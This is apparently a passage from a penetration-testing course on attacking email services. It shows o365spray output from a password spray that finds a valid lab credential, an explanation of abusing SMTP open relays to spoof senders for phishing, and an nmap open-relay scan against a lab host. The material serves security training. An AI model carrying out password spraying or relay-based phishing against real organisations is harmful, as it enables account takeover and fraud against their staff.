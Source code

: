 ```shell-session

>----------------------------------------<

[2022-04-14 12:26:31,757] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-14 12:26:32,201] INFO : [VALID] The following domain is using O365: msplaintext.xyz
[2022-04-14 12:26:32,202] INFO : Running password spray against 2 users.
[2022-04-14 12:26:32,202] INFO : Password spraying the following passwords: ['March2022!']
[2022-04-14 12:26:33,025] INFO : [VALID] lewen@msplaintext.xyz:March2022!
[2022-04-14 12:26:33,048] INFO : 

[ * ] Writing valid credentials to: '/opt/o365spray/spray/spray_valid_credentials.2204141226.txt'
[ * ] All sprayed credentials can be found at: '/opt/o365spray/spray/spray_tested_credentials.2204141226.txt'

[2022-04-14 12:26:33,048] INFO : Valid Credentials: 1
```

***

### Protocol Specifics Attacks

An open relay is a Simple Transfer Mail Protocol (`SMTP`) server, which is improperly configured and allows an unauthenticated email relay. Messaging servers that are accidentally or intentionally configured as open relays allow mail from any source to be transparently re-routed through the open relay server. This behavior masks the source of the messages and makes it look like the mail originated from the open relay server.

**Open Relay**

From an attacker's standpoint, we can abuse this for phishing by sending emails as non-existing users or spoofing someone else's email. For example, imagine we are targeting an enterprise with an open relay mail server, and we identify they use a specific email address to send notifications to their employees. We can send a similar email using the same address and add our phishing link with this information. With the `nmap smtp-open-relay` script, we can identify if an SMTP port allows an open relay.

Attacking Email Services

```shell-session
AIceBear@htb[/htb]# nmap -p25 -Pn --script smtp-open-relay 10.10.11.213

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-28 23:59 EDT
Nmap scan report for 10.10.11.213
Host is up (0.28s latency).

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-open-relay: Server is an open relay (14/16 tests)
```

Next, we can use any mail client to connect to the mail server and send our email.

Attacking Email Services
